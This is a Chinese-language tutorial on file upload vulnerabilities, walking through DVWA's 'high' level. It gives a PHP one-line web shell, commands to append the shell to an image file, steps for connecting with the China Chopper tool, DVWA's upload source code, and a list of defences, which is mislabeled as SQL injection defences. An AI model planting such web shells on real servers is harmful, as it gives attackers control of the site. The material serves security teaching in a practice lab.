







## 什么是文件上传漏洞

文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。常见场景是 web 服务器允许用户上传图片或者普通文本文件保存，而用户绕过上传机制上传恶意代码并执行从而控制服务器。显然这种漏洞是 getshell 最快最直接的方法之一，需要说明的是上传文件操作本身是没有问题的，问题在于文件上传到服务器后，服务器怎么处理和解释文件。


文件上传漏洞的利用是有`限制条件`：

+ 能够成功上传木马文件
+ 上传文件必须能够被执行
+ 上传文件的路径必须可知

## 文件上传漏洞产生的原因

1. 服务器配置不当会导致任意文件上传；

2. Web 应用开放了文件上传功能，并且对上传的文件没有进行足够的限制；

3. 程序开发部署时候，没有考虑到系统特性和验证和过滤不严格而导致限制被绕过，上传任意文件。


## 文件上传漏洞的原理



## high级别文件上传


### 1. 制作一句话木马

```php
<?php @eval($_POST['attack']); ?>
```

   
   
密码为attack

### 2. 准备一张图片

本文使用以下图片进行上传操作：


### 3. 生成图片木马
如果是`Windows`系统，则在`cmd`中执行以下形式的命令：

```bash
copy 原图片名/b+一句话木马文件名/a 生成图片木马名
```

其中`b`指的是binary二进制的含义，`a`指的是append追加的含义。

以上一条命令是把一句话木马以二进制的方式追加到原图片后面生成新的图片木马，原图片内容不会发生改变。



把图片用十六进制文本编辑器（如010editor）打开就会发现，图片的末尾就是一句话木马的内容。



如果是`Linux`系统，则执行以下形式的命令：
```bash
cat 一句话木马文件名 >> 图片名
```
以上一条命令就是把一句话木马追加到图片后面。

### 4. 上传木马图片



### 5. 连接中国菜刀工具

打开`中国菜刀`后，右键点击添加，如下图所示的格式来填写地址以及配置信息



添加成功后，双击就可以用`中国菜刀`就可以获取和控制整个网站目录。



### 源码分析

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?> 
```
High级别的代码读取文件名中最后一个`.` 后的字符串，期望通过文件名来限制文件类型，因此要求上传文件名形式必须是`*.jpg`、`*.jpeg` 、`*.png` 之一。同时，`getimagesize` 函数更是限制了上传文件的文件头必须为图像类型。


## SQL注入防御措施
1. 对上传的文件在服务器上存储时进行重命名。
2. 检查上传文件的类型和大小。
3. 禁止上传危险的文件类型，如·`php`、`asp`、`jsp`、`jar`、`war` 等。
4. 直接受指定类型的文件。
5. 上传文件做日志记录。
6. 上传文件要保存的文件名和目录名由系统根据时间生成，不允许用户自定义。
